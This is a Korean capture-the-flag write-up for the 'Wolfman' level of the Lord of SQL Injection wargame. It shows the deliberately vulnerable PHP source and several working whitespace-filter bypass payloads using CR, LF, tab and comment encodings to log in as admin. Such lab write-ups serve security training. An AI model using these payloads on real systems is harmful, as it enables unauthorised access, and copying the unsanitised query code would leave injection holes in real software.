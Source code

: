 # Lord of SQL Injection No.5 - Wolfman
## 문제 출제 의도
1. ' '(공백)없이 쿼리를 조작하여 해결 할 수 있는지 확인.
## 소스 코드 분석
+ 소스 코드  
Wolfman의 소스 코드는 다음과 같다.
    ~~~
    <?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
    $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
    if($result['id'] == 'admin') solve("wolfman"); 
    highlight_file(__FILE__); 
    ?>
    ~~~
+ 소스 코드 분석
    - GET방식으로 받은 pw에 공백이 있으면 "No whitespace ~_~"이 출력되고 문제풀이에 실패한다.
    - 문제 풀이에 성공하는 조건은 데이터베이스에서 받아온 id 값이 'admin'이면 통과이다.
## 문제 해결
+ 추가 문자열  
    'admin'을 id 값으로 받아오기 위해서는 다음과 같은 문자열이 URL뒤에 추가되어야 한다.
    ~~~
    ?pw=' or id='admin'-- -'
    ~~~
    그러나 공백을 입력하면 문제풀이에 실패함으로 공백을 대체할 문자들을 넣으면 문제풀이에 성공한다.  

+ CR(Carriage Return) 이용  
    ~~~
    ?pw='%0Dor%0Did='admin'--%0D-
    ~~~
    ASCII Code에서 Carriage Return은 0x0D에 해당한다.
    이는 MySQL에서 공백으로 인식하는 문자들 중 하나이다.

+ LF(Line Feed) 이용  
    ~~~
    ?pw='%0Aor%0Aid='admin'--%0A-
    ~~~
    ASCII Code에서 Line Feed은 0x0A에 해당한다.
    이는 MySQL에서 공백으로 인식하는 문자들 중 하나이다.

+ Tab 이용  
    ~~~
    ?pw='%09or%09id='admin'--%09-
    ~~~
    ASCII Code에서 Tab은 0x09에 해당한다.
    이는 MySQL에서 공백으로 인식하는 문자들 중 하나이다.

+ 주석 이용  
    ~~~
    pw='/**/or/**/id='admin'%23
    ~~~
    주석을 구문 사이에 입력하면 공백이 없어도 원활히 작동한다.
    이떄 #을 주석 대신 넣은 이유는 -- - 사이의 공백에 주석을 입력하면 정상적으로 작동하지 않기 때문이다.

**위와 같은 방법들 중 하나로 해결하면 $result['id']에 'admin'이 들어가므로 문제 해결에 성공한다.**
